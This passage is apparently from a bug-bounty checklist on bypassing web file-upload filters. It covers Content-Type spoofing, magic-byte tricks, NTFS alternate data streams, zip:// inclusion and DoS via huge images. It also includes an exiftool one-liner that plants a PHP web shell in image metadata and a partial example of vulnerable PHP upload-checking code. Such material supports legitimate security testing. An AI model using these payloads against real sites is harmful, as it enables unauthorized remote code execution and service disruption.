 	    * `Content-Type : image/png`
	    * `Content-Type : image/jpeg`
	    * Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
	    * Set the Content-Type twice: once for unallowed type and once for allowed.
	- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
	    * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
		* PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
		* JPG: `\xff\xd8\xff`
		* GIF: `GIF87a` OR `GIF8;`
	    * Shell can also be added in the metadata
	- Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")


	
	
    - # Misc
        - [ ]  Uploading `file.js` & `file.config` (web.config)
        - [ ]  [Pixel flood attack using image](https://github.com/0xmaximus/Galaxy-Bugbounty-Checklist/tree/main/DOS#4-pixel-floodimage-with-a-huge-pixelsframe-floodgif-with-a-huge-frame-attack)
        - [ ]  [DoS with a large values name](https://github.com/0xmaximus/Galaxy-Bugbounty-Checklist/tree/main/DOS#3-big-entity) `1234...99.png`
        - [ ]  Zip Slip
            - If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
        - [ ]  Image Shell
            - Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file `mv pic.jpg pic.php.jpg`

            ```php
            exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
            ```
        - - - -            
    - # My Full Scanario For Check Uploaders:

        -   Just uploading .php file instead of jpg file.
        -   Trying double extensions to bypass and upload php file pic.jpg.php or pic.php.jpg
        -   Changing Content-type filtering i.e., changing Content-Type: txt/php to image/jpg
        -   Tried Case sensitives — pic.PhP also tried pic.php5, pHP5.
        -   Tried special characters to bypass pic.php%00 , pic.php%0a, pic.php%00
        -   Tried comment php code in jpg file.
        -   Basically every file extension has its own magic number, and I took a php-reverse-shell.php file and using hex editor I added the magic number of jpeg i.e., FF D8 FF E0 at start of the php file using the hex tool.
        - - - -
    - # Vulnerable uploader code for mgic bytes:
        - [ ]  PHP code:
          ```php
            <?php
            $allowed_image_types = false;
            $image_content = file_get_contents( 'image.png' );
            $allowed_image_types = array(
	    	'jpeg' => "\xFF\xD8\xFF",
	    	'gif' => "GIF",
            	'png' => "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a",
	        'bmp' => "BM",
            	'psd' => "8BPS",
            	'swf' => "FWS",
            );
            foreach ( $allowed_image_types as $allowed_image_type => $allowed_binary_check ) {